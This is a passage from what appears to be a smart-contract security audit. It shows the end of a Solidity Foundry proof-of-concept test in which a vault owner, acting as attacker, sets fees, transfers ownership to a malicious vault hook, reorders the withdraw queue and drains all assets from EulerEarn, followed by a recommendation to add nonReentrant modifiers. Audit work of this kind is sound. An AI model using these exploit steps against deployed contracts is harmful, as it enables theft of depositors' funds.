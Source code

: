 ```solidity
        address user = address(0x010101);
        loanToken.mint(user, depositAmount);

        vm.startPrank(user);
        loanToken.approve(address(eulerEarn), depositAmount);
        eulerEarn.deposit(depositAmount, user);
        vm.stopPrank();

        // --- Execute Exploit --- //

        // owner sets fee recipient and sets max fee
        vm.startPrank(attacker);
        eulerEarn.setFeeRecipient(attacker);
        eulerEarn.setFee(0.5e18);

        // owner deposits assets into eulerEarn
        loanToken.mint(attacker, depositAmount); 
        loanToken.approve(address(eulerEarn), depositAmount);
        eulerEarn.deposit(depositAmount, attacker);

        // owner transfers ownership to malVault's hook
        eulerEarn.transferOwnership(malHook);

        // owner moves malVault to beginning of withdraw queue
        uint256[] memory indexes = new uint256[](2);
        indexes[0] = 1;
        indexes[1] = 0;

        eulerEarn.updateWithdrawQueue(indexes);

        // owner withdraws all assets from EulerEarn
        assertEq(loanToken.balanceOf(attacker), 0); // 0 balance before exploit

        uint256 allAssets = eulerEarn.lastTotalAssets();

        eulerEarn.withdraw(allAssets, attacker, attacker);

        assertEq(loanToken.balanceOf(attacker), allAssets); // attacker stole all assets from EulerEarn
        assertGt(eulerEarn.balanceOf(attacker), 0); // attacker still has excess shares
    }
}
```

**Recommendations**

It's recommended placing `nonReentrant` modifiers on `setFee` and `setFeeRecipient` to protect against this edge case.



# [L-09] Re-adding removed vault assets duplicates accounting in `lastTotalAssets`
